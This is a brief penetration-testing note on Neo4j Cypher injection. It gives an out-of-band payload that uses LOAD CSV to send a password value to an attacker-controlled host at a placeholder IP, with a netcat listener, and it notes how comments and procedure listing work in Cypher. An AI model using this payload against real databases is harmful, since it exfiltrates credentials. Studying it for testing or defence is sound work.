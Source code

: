 
[Graph database](https://en.wikipedia.org/wiki/Graph_database) and used by [[Privilege Escalation#Bloodhound|Bloodhound]]


'Neo4j query language is called `cypher` and performing injection attacks is called `cypher injection`. Check the cheatsheet about all of this [here](https://pentester.land/blog/cypher-injection-cheatsheet/****)

## Useful queries

- `LOAD FROM CSV`: To extract information that would be otherwise unaccessible (because further parsed in the code for example), `LOAD FROM CSV` can be quite useful. The target can be a http link to one's own machine (after setting up netcat), and we can happen anything key/value at the end to receive the information: 
```cyhper
LOAD CSV FROM 'http://<ip>/'+password.value  RETURN password
```

- inline comment is `//` and multi-line `/*`
- Procedures are function that are available inside cypher, which can be extended with custom ones. List all procedures with: 
```cyhper
CALL dbms.procedures()
```

